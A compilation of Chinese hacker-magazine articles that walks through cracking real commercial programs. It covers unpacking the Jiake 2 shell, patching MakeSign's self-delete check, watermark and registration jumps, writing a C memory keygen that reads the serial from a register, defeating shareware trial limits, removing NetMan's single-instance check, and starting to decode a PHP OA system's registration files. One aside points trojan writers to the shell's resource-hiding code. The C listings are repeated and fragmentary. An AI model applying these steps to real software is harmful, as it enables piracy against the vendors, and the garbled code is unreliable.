到这里，壳要对原 PE 文件做的两项必要工作，解密区段和填充 IAT 表已经完成，接下来的任务就是跳入 OEP，即 PE 文件的原入口点。找到 OEP 以后我就可以 Dump 镜像了，即可执行的 PE 文件。

乱入一句，并不是所有甲壳2加的程序都可以通过对 rsrc 下断点到这的，所以我自作主张地提供了特征码 `89 14 81 E9`。在完成第一个内存断点后，Alt+M 呼出内存窗口，然后 Ctrl+B 直接搜特征码就可以到这了。

接上文，返回到这：

```asm
003D464C    8B45 EC        mov eax, dword ptr [ebp-14]
003D464F    50             push eax
003D4650    E8 EBFCFFFF    call 003D4340
003D4655    83C4 04        add esp, 4
```

这里用到了同样迂回的花指令，核心算法是 eax 中的自增数值加上一个基址得到一个新的地址，然后 ecx 用同样的办法得到一个地址并导出一个 byte，最后赋值。

接下来两个 jmp 都是在跳回循环（两个循环）继续纠结的，时间关系我们就不接着观察了。F4 到第二个 jmp 的下一个指令，然后对 .rsrc 段下写入断点，F9，停在这里：

```asm
003D3DF4    891481         mov dword ptr [ecx+eax*4], edx ; kernel32.GetFileAttributesW
003D3DF7    E9 33FFFFFF    jmp 003D3D2F
```

不用跟，直接 Ctrl+F9 执行到返回，到这：

```asm
003D46C2    8945 FC        mov dword ptr [ebp-4], eax ; J0-C0C-VC.004320D8
003D46C5    6A 00          push 0
003D46C7    FF15 18503D00  call dword ptr [3D5018] ; kernel32.GetModuleHandleW
```

也可以运行了。但，峰回路转，这次秒脱却是个“失败”的脱壳。

可以试着用脱壳后的程序加壳，幸运的话会看到程序崩溃（提示框如图2）。这个甲壳，客气点说是不太好用，不客气地说，实在是太难用了。就算用它自己提供的原程序来加壳，要完美填写那些古怪的输入、成功加上就相当不容易，经常不是提示输入错误就是程序要重启；还要想顺利运行的话，简直是天方夜谭。这是因为甲壳加壳时需要调用一个 dll，然而找遍甲壳的安装包，都没有发现有 dll，那这个 dll 又是从何而来呢？

菊花都露出来了，003D46C2 处 eax 的值就是 OEP。为什么上一段是用 F4 而不是 Ctrl+F9 呢，闭着眼睛让 OD 直接执行到返回岂不是更方便？因为 Ctrl+F9 原理很简单，只是执行到任意一个 retn 指令就停止，上一段的循环还会跳进系统空间调用 API，API 本身也有 retn，用 Ctrl+F9 会陷入系统空间。为了避免麻烦，F4 才是最好的选择。而这一段又臭又长、分支又多，加上没有别的函数调用，使用 Ctrl+F9 就会简洁得多。

```asm
003D471D    A3 04643D00    mov dword ptr [3D6404], eax
003D4722    8B65 08        mov esp, dword ptr [ebp+8]
003D4725    61             popad
003D4726    FF25 04643D00  jmp dword ptr [3D6404]
```

就是这样，eax 直接赋值给一个变量，然后用这个变量间接跳转。


当然，保护壳一般是不会让 eax 的值一直保持为 OEP，中间还是有些赋值变换的，不过那一串酷炫的操作太过耀眼，为了防止误伤和节省纸张，我就都统统省略了。

003D4726 的 jmp 之后就是 OEP，现在可以 Dump 了，右键调出 OllyDump 就可以了，注意不要选 Rebuild Import，即不要插件自动修复 IAT 表。

Dump 出来的程序应该可以直接在本机运行了，因为甲壳2主打 VCPU，没有偷 IAT，即原 PE 调用 API 时，不需要回到壳区段中执行。不过这个 IAT 中的数据只是本机的系统环境，需要跨平台。嗯，其实就是换到别的机上运行，用 ImportREC 修复一下就可以了。甲壳2的 OEP 是 004320D8，所以在 ImportREC 中输入 000320D8，再自动获取 IAT 就 OK 了（图1）。

现在，世界第一强壳已经被秒脱了，Dump 下来的 exe 也可以运行了。

让我们回到第一段代码，显然，那是一些对资源的操作，教科书般展示了如何在资源里藏文件。有兴趣写木马而且想把生成的文件整合进同一个 PE 文件的同学可以好好临摹一下。我们注意到 0040150B，OD 标注的参数为 `ResourceType = "DLL"`，原来 dll 在这里！甲壳把 dll 作为资源，并把获取这个资源的代码放进壳里，当壳运行的时候，就释出这个 dll 并 load 入内存。我们脱壳之后，就无法获取这个 dll，从而无法加壳。

然而，既然分析到这一步，要修复也不难了，只要做一个 loader 把它 load 入内存，然后把 dll 的输出函数重新链接好即可。如果大家编码有困难，可以上论坛发帖，我会视情况补充的。

> （文中涉及的相关软件本期光盘中收录）

## 曲折突围——再谈水印破解

时间过得真快，高三大半时间过去了，新年愿大家技术都有所进步。上次爆破日记里提到利用函数爆破掉拍照软件的思路，这次破解的主角依旧是水印，只是思路完全不同……程序 MakeSign.exe，下面就一起体验一下我的爆破历程。

0012FFA4（即在该处下一个硬件断点，硬件断点简单地说就是用 OllyICE 重新载入程序后依旧保留的断点）并按回车键（如图3）。此时按 Ctrl+F2 重新载入，按 F9 运行，OllyICE 自动停在断点处……打开 OD 插件 OLLYDUMP（如图4）保存为 unpack.exe，再用 PEiD 查下，已经无壳了，程序是用 Delphi 编写的。

### 一、查看软件注册方式

这步就不需要多说了，破解都需要的。第一次打开未注册会有弹窗提示，进入程序界面后，我们可以清楚地看到公章下的水印（如图1）。注册时软件给出了注册 ID，要求输入用户 ID（如图2）。应该说是种比较熟悉的注册方式吧。看完了注册方法，我们进入破解下一环节，查壳。


### 二、查壳脱壳

用 PEiD 查了一下，壳是 ASPack 2.12，用 ESP 定律来搞定吧。首先用 OllyICE 打开软件，弹出的“压缩代码”对话框选择“否”，进入后按 F8 单步跟踪，看到寄存器（FPU）里 ESP 后变成一串红色数字 0012FFA4，我们要的就是它……

### 三、破解保护代码

满怀欣喜地打开脱壳后的软件，程序却提示“请联系作者使用特别版”，接着自动退出并自删。只好再脱一遍壳，按“破解零起步”的做法查找字符串“请联系作者使用特别版”，定位到相关提示后进入下面区域。

```asm
00546B0B  |. 3D 00701700     cmp eax,177000
00546B10  |. 7E 35           jle short 00546B47
00546B12  |. 6A 00           push 0
00546B14  |. 68 5C6D5400     push ...
00546B19     68 686D5400     push ...
00546B1E     8BC3            mov eax, ebx
00546B20     E8 2FC3F1FF     call ...
00546B25     50              push eax
00546B26     E8 D90CECFF     call MessageBoxA
...
00546B4E     74 35           je short 00546B85
...
00546B5C     8BC3            mov eax, ebx
00546B5E     E8 F1C2F1FF     call ...
```

稍加分析就知道，此处有 00546B10 的 JLE 和 00546B4E 的 JE 两处跳转。要跳过“自杀代码”我们就要修改这两处：一是将 00546B10 的 JLE 改为 JMP，二是将 00546B4E 的 JE 改为 JMP。这样就可以跳过自杀部分的 Call。此时单击右键→复制到可执行文件→所有修改，保存文件为 unpack1.exe。现在打开看看，“自杀”现象已不存在了。

### 三、巧除水印

既然是加了水印，自然要将水印删去。软件是在印章下加了一个“版权所有：一生中最爱”，既然没有调用什么（这个我们可以事先查看下，此处不多讲），那么我们就从程序文件入手。


图5


图6

将 unpack1.exe 载入 C32Asm，选择十六进制模式。这次水印的破解就从“搜索”功能入手吧：类型选择 ANSI 字符串，搜索内容输入“一生中最爱”（如图5）。C32 找到了，同时我们也能看到“版权所有”几个字。选择它们，右键点填充，用十六进制 00 填充，OK，保存文件，打开看看，水印已经没了（如图6）。

### 四、爆破注册模块

至此，软件功能已基本无碍，剩下的就是练手了。软件注册模块很好找，通过 OllyICE 查找字符串功能很容易找到，我就不啰嗦了。通过字符串，进入下面代码区域：

```asm
00538F73    E8 C0FDFFFF     call ...
00538F78    84C0            test al, al
00538F7A    75 64           jnz short 00538FE0
00538F7C    6A 00           push 0
00538F7E    68 40905300     push ...
00538F83    68 48905300     push ...
...（注册失败/注册码错误相关字符串）
```

稍加分析就知道，此处关键在跳转判断：

```asm
00538F88    A1 78295600     mov eax, dword ptr [562978]
00538F8D    8B00            mov eax, dword ptr [eax]
00538F8F    8B40 44         mov eax, dword ptr [eax+44]
```

```asm
00546F27    E8 F455F1FF     call 0045C520
00546F2C    8D45 F8         lea eax, dword ptr [ebp-8]
00546F2F    BA D46F5400     mov edx, 00546FD4 ; 未注册
00546F34    E8 E709EBFF     call 00404920
...
00547057    84C0            test al, al
00547059    74 10           je short 0054706B
0054705B    BA D4725400     mov edx, 005472D4 ; 已注册
```

版面所限，我只保留跳转部分。可以看到“00538F78 `test al, al`”这句判断注册码是否正确，00538F7A 决定了注册跳转方向，若注册码正确，则跳向 00538FE0。显然，我们没有正确的注册码，要想实现跳转就得把它改为 JMP。保存运行后，注册时提示注册成功，可软件还有红色字写着“未注册”，让人看得很不爽。再次载入 OllyICE，字符串参考输入“未注册”，找到如下部分：

```asm
00546F01    8D45 FC         lea eax, dword ptr [ebp-4]
00546F04    BA C46F5400     mov edx, 00546FC4 ; 已注册
00546F09    E8 12DAEBFF     call 00404920
00546F0E    8B55 FC         mov edx, dword ptr [ebp-4]
00546F11    8BC3            mov eax, ebx
00546F13    E8 3856F1FF     call 0045C550
00546F18    EB 29           jmp short 00546F43
...
```

00546EEB 经过比较得到注册是否正确，在 00546EED 跳到未注册，00547057 处也是如此。这样思路就明了了：将 00546EED 的 JE 和 00547059 处修改为 JNE 即可。现在再次保存所有修改，运行程序并注册，显示的就是“已注册”了。

### 五、总结

这次破解没什么高深的技术含量，只是给大家破解此类软件提供一种可行思路。其实这款软件还有一些地方值得挖掘，我就不提了，有兴趣的可以自行尝试。文章就到这里，如有错误，欢迎指正，论坛 ID：冷夜。（文章中所涉及到的 MakeSign 已收录在光盘中）

## 软件破解经验谈

相信很多人对玩 crackme 已经很有心得了，但实际去破解软件时却遇到这样那样的问题。本篇文章便本着 FREE、SHARE 的理念向各位介绍一些破解软件的小知识，帮各位读者将玩 crackme 的经验转化为破解软件的技术。

FREE、SHARE 的理念是去破解软件，而不是以牟利为目的，因为那样对你没什么好处。

### 一、工欲善其事，必先利其器

首先让我们来看看诸位手中的家伙都是什么？都是 OD？OD 确实是一个不错的东西，是一个“便捷的面向黑客的应用程序级（ring3）调试器”，拿来玩 crackme 确实是相当不错的选择。当然我并不是在委婉地告诉你 OD 不适合用来破解软件，事实上相当多的 cracker（破解高手，而非破坏者）在用 OD。我想说的是，只有 OD 是不够的，你还需要其他东西，下面我会详细列举。

我们从 OD 开始，相信大家手上的 OD 都是破解版的，而且版本号也参差不齐。不过这并不是重点，重点在于大家手上 OD 的插件功能很少有人会用到，甚至有人根本不知道 OD 支持插件。OD 之所以会被 cracker 们青睐，就是因为 OD 支持插件机制。当然还有一个原因是 SoftICE 停止更新了，世界各地的黑客都可以为 OD 编写插件来增强其功能。你可以在 http://www.openrce.org 上找到大量的 OD 插件（如图1）。

看到很多基于这种理念的半成品。我给大家提供的办法是：先用 PEiD（http://peid.has.it）检查软件使用的何种打包器（加的什么样的壳），再去网上寻找相应的解决方法。虽然 PEiD 给出的结果不正确或存在歧义是经常的事，但有工具可用总比没有的好。

其次我们还需要一个监视器，来监视软件会对你的机器做些什么。这里推荐 Mark Russinovich 开发的文件监视器 File Monitor 与注册表监视器 Regedit Monitor。

此外还有一些会用到的工具，比如反编译器（推荐 DeDe，http://programmerstools.org/node/120，免费；此外还有针对 VB 的 VB Decompiler 和 VB RezQ）、十六进制编辑器（推荐 HIEW，特别是 V6.04 版，还有 WinHex）、解包器（脱壳器、转储器：Lord PE、PE Tools 和 Resource Binder）、资源编辑器（Restorator Resource Editor 和免费的 XN Resource Editor）、窥测器（隶属于 Microsoft Visual Studio 的 Spyxx.exe 和免费的 WinSpy）、修正器（Process Patcher）等，这里就不一一介绍了。

对了，我们还需要一个仿真器（VMware、Virtual PC 等），也就是我们平时说的“虚拟机”。因为在破解中经常会出现一些你不希望发生的事，所以在虚拟机中工作是最好的选择。


图1

接下来，我们需要一个反汇编器，IDA Pro 是唯一的选择。除此之外，所有的反汇编器工作时产生的错误都会让人感到崩溃。IDA 是一个交互式的反汇编器，你可以用它直接处理二进制文件，凭想象随心所欲地研究，从而为创造性的活动提供了许多可能性。相比之下，大多数批处理反汇编器都是些闷头闷脑的自动化工具，它们吞下去那些被“黑”的程序，生成一堆没什么用且错误百出的反汇编清单，这相当令人痛苦。IDA 也支持插件机制，同样在上面提供的网址上找得到（其实 OD 中内置了反汇编器，而 IDA 也同样内置了调试器，不过不是太好用就是了）。

由于相当多的软件是被加壳的，我们常通过这个手段来对抗杀软，而这样的软件反汇编出的信息是不可靠甚至完全错误的，我们需要先对软件进行脱壳才能进行破解。但困难的是，打包的方式实在太过多种多样，无数的黑客想要编写一个通用的解包器，却没有一个人成功，在网络上可以找到很多基于这种理念的半成品。


图2

### 二、知己知彼，百战不殆

接下来我们认识一下软件的保护机制（如图2）。具体形式这里就不一一列举了，相信大家心里都有个大致的印象，不知道的可以去请教度娘。需要说的是，有些软件会使用一些别的公司专门制作的保护软件来保护自己的软件。如果是这样的话，你完全不用费时费力地阅读那些又臭又长的反汇编代码。搞清楚这是什么牌子的保护机制，然后百度……一下，你会省下相当长的一段时间。

## 三、夫森歇而牖算胜著，得算多也

最后让我带领大家模拟一下软件破解的过程，并分析破解期间经常出现的各种特殊状况：

现在让我们进入虚拟机并用 OD 载入在破解的软件。咦，怎么回事？OD 自动关闭了，然后自动关机，再开的时候 BIOS 提示没有操作系统……

现在应该庆幸你是在虚拟机里进行破解工作的了吧！出现这一情况的原因是：软件检测到自己运行在调试器里，为了不被破解而采取了反制手段——格式化硬盘。解决的方法是寻找一个能让 OD 在软件保护机制眼里隐身的插件。

好了，用快照恢复虚拟机并为 OD 装上插件，我们继续。OD 顺利载入软件并给出了反汇编代码，而不是硬盘被再一次格式化。但请不要高兴得太早，因为 OD 给出的全是乱码……这是因为软件被加壳了，用我前面提到的 PEiD 试试吧（用它提供的信息在网上寻找解决办法，而不是尝试用它来解包，因为它很难解得出来，原因前面已经说出来了）。如果运气不错，相信你现在已经得到正确的反汇编代码了。如果你运气不好，那我也没有什么别的好办法了，去打那些半成品的通用解包器试试吧！还有一种办法，大家可以找一些 OD 的脱壳插件，这些东西也可以试试。如果实在没办法脱壳，大家可以试试转储器，它几乎可以破除所有打包器和绝大多数保护器。不过需要指出的是，你仍必须对所得到的转储内容投入相当多的精力去探查；如果这也不行，那就只能手工脱壳了 o(╯□╰)o。

接下来就看各位的技术功底了，和平常玩 cracker 差不多。大家只需要记住一点，防御体系的各个环节并不是一样强有力的，总体保护强度的高低要由最脆弱的部分决定。举个例子，要进入一间装有钢板防盗门的卡纸板小屋，踹墙显然比撬门来得方便快捷。

下面我要讲一些破解共享软件的技巧。共享软件一般是让用户免费试用一段时间或一部分功能，然后让用户自愿掏腰包购买。要解决那些限制使用时间的软件相当容易。这些软件会在首次运行时在系统中做个标记用来判断是否为第一次运行，并记录下当前系统时间或放置一个计时器，当超过试用期后就拒绝运行。你可以修改系统时间，使用变速器（一种软件），或在软件第一次运行时启动监视器，搞清软件到底做了什么标记，然后清除掉就好了（据我所知有一个叫“云端”的软件可以帮我们完成这一切，而不用我们亲自动手）。至于那些限制功能就有些麻烦，有的仅仅是禁止使用，那样只要你技术够强就没问题；而另外一种则是把相关的功能代码从软件中物理删除了，这种情况只能通过其他方法搞到一个完整的再说了。

一时间就想到这么多，大家随便看看吧！最后劝大家一句，我们破解软件并不是为了牟利，请不要将这些技术作为非法牟利的手段！

## 破解进阶——内存注册机编写

上次《曲折实践——再谈水印》提到的破解图章制作系统 MakeSign 利用的是修改十六进制文件加上爆破的方法。但大家都知道，破解的境界里，爆破只是最简单的一级，那么这次，我们就进步一下，编写一个内存注册机。

其实在 OllyICE 中分析软件注册流程时我们就可以发现，这个软件有个软肋就是码比较，注册部分将注册码保存在寄存器中，很容易追出注册码，但我们不能满足于简单的追码，还要知道如何编写这类软件的注册机，下面就操刀动手吧。

软件的脱壳以及去除自杀代码上次已经提过了，这次就不再赘述，另外上次写到用 ESP 定律脱壳，这里再补充一种 ASPack 壳的脱壳方法；同样地载入未脱壳的软件，弹出对话框选择“否”，右键查找--命令序列，输入下面的命令。

```asm
push 0
retn
```

在跳转处按 F4，然后 F8 单步两三次就到 OEP 了。

脱壳后的软件载入到 OllyICE 中，利用字符串参考下断，还是在 00538F73 处下断点，F4 跟进。进入下面区域：


```asm
00538D77 ...
...
00538DE2  E8 91BDECFF  call 00404B78
00538DE7  8B45 F0      les eax, dword ptr [ebp-10]
```

```asm
00538DEA 50            push eax
00538DEB B9 02000000   mov ecx, 2
00538DF0 8BD3          mov edx, ebx
00538DF2 8B45 F0       mov eax, dword ptr [ebp-10]
00538DF5 E8 7EBDECFF   call 00404B78
```

这部分就是注册部分的主线了。在单步跟踪的时候，经过

```asm
00538DE2  E8 91BDECFF  call 00404B78
```

处时，软件就将明码存放到寄存器中，此时的寄存器是这样的：

```text
EAX 00C3C268 ASCII "0d7126356f314e8342529e12-ba52f9c6"
ECX 00000002
EDX 00000016
EBX 00000016
ESP 0012FBC0
EBP 0012FBEC
ESI 0043C94C MakeSign.0043C94C
EDI 0012FE94
EIP 00538DE2 MakeSign.00538DE2
```

这样编写内存注册机就不难了，这里用 Keymake 这款软件做示范编写。具体步骤如下：

- 1. 打开注册机编写器 Keymake，选择菜单项的“其他-内存注册机”，在程序信息部分载入要破解的程序，并单击左下角的添加。
- 2. 在添加数据对话框中输入以下数据：

| 中断地址 | 中断次数 | 第一字节 | 指令长度 |
|---|---:|---|---:|
| 00538DE2 | 1 | e8 | 5 |

输入完后单击添加。这里给小菜们补充一下，第一字节即第一个机器码，E8 91BDECFF 第一个当然就是 E8，指令长度也很好判断，通俗点说两个字节就是一个指令，故指令长度为 5。

- 3. 添加后在程序右侧注册码区域选择内存方式——勾上寄存器并选择寄存器为 EAX 即可。


图1


图2

现在已经基本完成了（如图1），另外用户信息处自己设置就好，此时单击右下角的生成，选择自己喜欢的注册机外观，生成后注册机就 OK 了（如图2）。

现在总结一下，理论上凡是在注册时往寄存器中进行源码比较的程序都是可以通过此种方法编写注册机的。但利用别人的软件制作注册机还不完美，我们也可以自己编程解决这个问题。

我用的是 C 语言；因为我 C 基础不好，代码都是东拼西凑的，所以只能写到这个地步了，代码如下：

```c
#include <windows.h>

void main()
{
    PROCESS_INFORMATION pi;
    STARTUPINFO si;
    DEBUG_EVENT devent;
    CONTEXT Regs;
    Regs.ContextFlags = CONTEXT_FULL | CONTEXT_DEBUG_REGISTERS | CONTEXT_CONTROL;

    ZeroMemory(&pi, sizeof(pi));
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);

    LPVOID breakAddr = (LPVOID)0x00538DE2; // 断点地址
    BYTE firstByte = 0x80;                 // 原特定字节
    BYTE op = 0xCC;
    DWORD real;
    BYTE buf[64];
    int nCount = 0;
    DWORD way;

    // 用调试方式创建需要破解的程序进程
    if(CreateProcess("MakeSign.exe", NULL,
        NULL, NULL, FALSE,
        DEBUG_ONLY_THIS_PROCESS | DEBUG_PROCESS,
        NULL, NULL, &si, &pi))
    {
        // 调试循环体
        while(TRUE)
        {
            if(WaitForDebugEvent(&devent, INFINITE))
            {
                way = DBG_EXCEPTION_NOT_HANDLED;
                switch(devent.dwDebugEventCode)
                {
                case EXIT_PROCESS_DEBUG_EVENT:
                    break;

                case EXCEPTION_DEBUG_EVENT:
                    if(devent.u.Exception.ExceptionRecord.ExceptionCode == EXCEPTION_BREAKPOINT)
                    {
                        nCount++;
                        if(nCount == 1)
                        {
                            ReadProcessMemory(pi.hProcess, breakAddr, buf, 1, &real);
                        }
                    }
                }
            }
        }
    }
}
```

```c
BYTE buf[64];
int nCount = 0;
DWORD way;

// 用调试方式创建需要破解的程序进程
if(CreateProcess("MakeSign.exe", NULL,
    NULL, NULL, FALSE,
    DEBUG_ONLY_THIS_PROCESS | DEBUG_PROCESS,
    NULL, NULL, &si, &pi))
{
    // 调试循环体
    while(TRUE)
    {
        // 等待调试事件
        if(WaitForDebugEvent(&devent, INFINITE))
        {
            way = DBG_EXCEPTION_NOT_HANDLED;

            switch(devent.dwDebugEventCode)
            {
            case EXIT_PROCESS_DEBUG_EVENT:
                break;

            case EXCEPTION_DEBUG_EVENT:
                // 异常事件处理
                if(devent.u.Exception.ExceptionRecord.ExceptionCode == EXCEPTION_BREAKPOINT)
                {
                    nCount++;
                    // 创建进程后会产生第一次异常中断
                    if(nCount == 1)
                    {
                        // 读取第一个字节进行校验
                        ReadProcessMemory(pi.hProcess, breakAddr, buf, 1, &real);
                    }
                }
                break;
            }
        }
    }
}
```

```c
// 设置断点
VirtualProtectEx(pi.hProcess, breakAddr, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
WriteProcessMemory(pi.hProcess, breakAddr, &op, 1, &real);
VirtualProtectEx(pi.hProcess, breakAddr, 1, oldProtect, NULL);

way = DBG_CONTINUE;

// 如果是在断点处暂停，则可以读取内存中的注册码
if (devent.u.Exception.ExceptionRecord.ExceptionAddress == breakAddr) {
    GetThreadContext(pi.hThread, &Regs);
    ReadProcessMemory(pi.hProcess, (char*)Regs.Eax, buf, 64, &real);
    MessageBox(NULL, (char*)buf, "MakeSign注册机 By 冷夜 [B.H.S.T]", 0);

    // 去除断点
    VirtualProtectEx(pi.hProcess, breakAddr, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
    WriteProcessMemory(pi.hProcess, breakAddr, &firstByte, 1, NULL);
}
```

```c
VirtualProtectEx(pi.hProcess, breakAddr, 1, oldProtect, NULL);   // 回到断点处继续执行
Regs.Eip = (DWORD)breakAddr;
SetThreadContext(pi.hThread, &Regs);
way = DBG_CONTINUE;

switch (...) {
case ...:
    break;
default:
    ContinueDebugEvent(pi.dwProcessId, pi.dwThreadId, way);
    break;
}

else {
    MessageBox(NULL, "请将注册机和要破解程序放在同一目录", NULL, 0);
}
```

这个程序只是将注册码以对话框的形式显示出来（如图3），精通 C 的朋友可以修改完善一下。另外，此处代码可以通用，不同软件只需修改不同信息即可。


图3

对于这款软件，有兴趣的朋友可以研究一下它的注册码获取方式，我已将大体注册流程整理出来，但因复习高考费时间，并未分析出算法，限于版面，我就将注册流程以及 C 代码放到光盘里，有兴趣大家可以研究一下。最后感谢 BHST 坛子 ROOT 大哥的指教，如有问题欢迎指正，论坛 ID：冷夜。

> （文章中所涉及到的 C 代码已经收录在光盘中）

## 对网络人的一次逆向分析

沧海浮萍

网络人是一款非常不错的远控软件，实现了内网穿透，操作非常简单。由于该开发团队最初并不是将其作为木马远控之类的工具进行开发和推广，因此从广大技术爱好者角度来说，NetMan 的知名度并没有灰鸽子、gh0st、Nat 等远控木马大。也正是由于它是一款正规的远控软件，因此它在企业以及正规场合的使用频度也是相当广泛的。笔者最近尝试使用了几次发现，网络人远程控制软件，功能上和木马相当，也可以实现隐藏的监控效果，但不会被杀毒软件查杀，笔者将在本文中详细介绍网络人的用法，以及对它的逆向分析。

在使用软件之前用户需要首先注册几个账号，便于同时登录两台以及两台以上的计算机。使用注册的账号登录后的界面如图1所示。登录的时候一定要记住软件提示我们输入的控制密码，使用这个密码我们可以在另一台计算机上使用网络人来控制我们的这台计算机。在远程 IP/ID 中输入我们的另一个用户名以及控制密码，点击“连接”我们就可以进行远程控制了。


图2


图1


图3

软件的具体用法相信朋友们会摸索出来的，下面笔者着重对网络人进行一次逆向分析。

按照流程开始，首先我们看一下安装目录下的模块都有哪些，如图2所示。其中 Language_big5.ini、Language_English.ini、Language_gb32.ini 三个文件是网络人的软件语言文件，通过这几个文件的切换，我们就可以不断地切换界面语言。EMail.ini 这个文件中存放的是一些邮件信息，我们从软件中可以找到这些信息，如图3所示。Property.ini 这个文件存放的信息是网络人的一些配置信息。netman.exe 是主文件，NetmanService.exe 是网络人的服务模块。至于其他的模块我们需要进行分析才能得出结论。首先我们用 PEID 查壳可以发现网络人本身没有采用加壳保护，如图4所示，是采用 VC6 写的。我们直接将软件的主模块载入到 OD 中。

按照常规我们需要看看软件有没有字符串的相关信息。我们采用超级字符串窗口的“查找 UNICODE”来查找相关的字符串。为什么用 UNICODE 呢？因为在载入程序到 OD 时我们可以看到内存窗口中有一些字符串提示，如图5所示。

```text
地址      数据       注释
00465010 00423030 netman.00423030
00465014 00000000
00465018 00000000
0046501C 00000000
00465020 00465548 UNICODE "Duration"
00465024 00465538 UNICODE "Bitrate"
00465028 0046557C UNICODE "Seekable"
0046502C 00465508 UNICODE "Stridable"
00465030 004654F4 UNICODE "Broadcast"
```


的网址等，部分代码如下：

```asm
00423CD4 50                PUSH EAX
00423CD5 8D4C2418          LEA ECX,[ESP+18]
...
PUSH netman.004686E0
ASCII "Create mutex %d err%d"
...
```


```text
[INI/字符串内容]
StartServer
Set127.0.0.1
Main
http://netman123.cn/register.asp
open
http://netman123.cn/news.asp
Email.ini
...
Language_English.ini
http://netman123.cn/bbs/reg.aspupdate
http://netman123.cn/update.asp
```


| RVA | Size | Section | 含义 |
|---|---|---|---|
| 003F0000 | 00001000 | .text | 代码 |
| 003F1000 | 00006000 | .rdata | 输入表/输出表 |
| ... | ... | ... | ... |
| 00465000 | 00008000 | .data | 数据 |
| 004D3000 | 00012000 | .rsrc | 资源 |


查找完毕后我们到字符串窗口查看相关信息，虽然大部分信息不明确，但是还有一部分信息我们是可以看出来的，如图6所示。更多的有用信息我们可以通过下面的方法来获取。点击 OD 的“查看”-“内存”，选择主执行程序主模块的 .text 节段，如图7所示，这个节段里面包含的就是可执行程序主模块的代码。我们双击该节段之后就来到了它的内存区域，如图8所示。

```asm
00401000 6A FF             PUSH -1
00401002 68 ...            PUSH ...
00401007 64 A1 00000000    MOV EAX,FS:[0]
0040100D 50                PUSH EAX
...
```


在右侧的注释栏中我们可以看到很多有用的信息，其中包括了网络连接、按钮初始化、配置文件读取、模块加载、互斥体创建、服务创建以及不断弹出的新闻和提示信息。

```asm
0042BFD3 6A05              PUSH 5
0042BFD5 6A00              PUSH 0
...
PUSH netman.00468880
ASCII "http://netman123.cn"
...
CALL [<&SHELL32.ShellExecuteA>]
...
```


```asm
0041DC14 E8 13400300       CALL ...
...
PUSH netman.00468134
ASCII "Network"
...
PUSH netman.00468120
ASCII "Connect"
0041DC28 E8 E3540000       CALL ...
```

## 神秘园


从上面的分析可以看出，对软件进行逆向分析时，我们最先就应该先去浏览软件的信息，这些信息包括模块信息、错误提示信息，以及内存的状态信息、函数调用信息等。通过函数以及模块的调用栈，我们能够判断出程序每一模块的具体功能。NetMan 这款软件是不允许多开的，也就是说在一台计算机上只允许开启一个实例，下面我们来分析并除去这个限制。从上面代码中我们可以看到这样一个提示信息“Create mutex:%d,err%d”，很显然，这是创建互斥体失败的信息。

小知识：互斥体实现了“互相排斥”（mutual exclusion）同步的简单形式（所以名为互斥体 mutex）。它可以用于软件的单实例限制，在 VC 中通过 CreateMutex 这个 API 函数来创建互斥体。函数原型如下：

```c
HANDLE WINAPI CreateMutex(
  __in_opt LPSECURITY_ATTRIBUTES lpMutexAttributes,
  __in BOOL bInitialOwner,
  __in_opt LPCTSTR lpName
);
```

下面我们就来到内存地址为 00423CD4 的位置，如图9所示。我们前往这一段代码的开始位置，并在段首设置断点，如图10。

```
图9：调试代码片段
```

```
图10：调试代码片段
```

为了安全起见，这里我们设置为硬件执行断点。断点设置完毕后我们运行程序，此时程序将在这里中断下来，然后我们按 F8 单步执行，来到创建互斥体的关键代码位置；代码如图11所示。为了更好观察互斥体创建的效果，我们再打开一个 OD，并载入 NetMan，按照上面相同的方式，将程序运行至这个位置。然后单步执行第一个 OD，直到 CreateMutex 创建互斥体的工作完成，这里我们可以看到 EAX 中的值为 110，然后继续执行完 GetLastError 这个函数时 EAX 值为 0，同时将该值放入了 EDI。

这里是正常执行的过程，下面我们来看一下第二个 OD 的执行结果。第二个 OD 在执行完 CreateMutex 时 EAX 的值为 110，但正在执行完 GetLastError 之后 EAX 中的值变成了 0B7，如图12所示。

```
图11：关键代码位置（CreateMutex / GetLastError）
```

```
图12：寄存器状态（EAX=000000B7）
```

下面就是处理单个实例的关键了，如图13所示的代码中，`CMP EDI,0B7` 这一句就是检测互斥体创建是否失败。很显然，当 EDI 的值为 0B7 时说明互斥体创建失败，也就是说系统中已经有一个实例在运行了，所以下面的跳转要执行，执行了跳转程序也就退出了。所以这里不能让它执行。

```
图13：`CMP EDI,0B7` 与条件跳转代码
```

我们不要修改跳转的模式，而修改对比的值，将 `CMP EDI,0B7` 修改为 `CMP EDI,0B0`，只要不是 0B7 就可以。修改之后保存程序，我们运行一下测试，看看能否开启多个实例，测试结果如图14所示，修改成功。


分析一个软件的前提是获取较为完整的软件信息，特别是错误之类的信息，这对于我们的逆向分析是十分关键的。另外查看这个程序主模块所使用的 API 函数也十分重要，得到了这个程序的 API 函数我们就可以知道这个程序各个模块的大致功能，这对于我们分析程序的整体架构是十分重要的。网络人这款软件从整体上说是很不错的软件，本文对网络人这款软件的限制解除仅仅用于技术交流，不得用于非法用途，笔者也不会将解除限制后的软件予以公布。

> （文中涉及的“netman免费办公版以及相关代码”本期光盘已收录）

## PHP源码OA系统注册码的破解

史振明

以武汉天拓科技发展公司的 ttoa.exe（Global office version 3.0）为实例，演示如何破解 PHP 源码 OA 系统的注册码。


图1


图2

### 一、寻找注册文件

OA 系统安装完后，以用户名：admin、密码为空登录进入 OA，桌面上有“软件尚未注册，点击这里注册”（见图1），点击后出现注册页面（见图2）。这个文件是哪个文件呢？鼠标右键在此文件空白处点一下，选“属性”，可看到：`http://pc-201011291107/inc/reg.php`（见图3），直接在浏览器里打开：`http://pc-201011291107/inc/reg.php`，一样出现注册文件，这说明 reg.php 这个文件是注册文件。

### 二、确定注册关键文件和算法位置

直接用写字板打开 `d:\TTOA\webroot\inc\reg.php`（我的 OA 系统安装目录），是乱码（见图4），用 DezenderGUI 解密此文件；点击“添加”，找到 `D:\TTOA\webroot\inc\reg.php`，选择输出目录，我是把解密文件放在桌面上（见图5）。解密完成后，用写字板打开桌面上的 reg.de.php，先找到“注册”字符串，往后看：`form action=\reg_submit.php`（见图6），这一句是点击“注册”后，把变量传给 reg_submit.php 处理。同样，用 DezenderGUI 解密，打开该文件：


图3


图4

## 神秘园


图5

```php
message('提示', '注册成功');
```

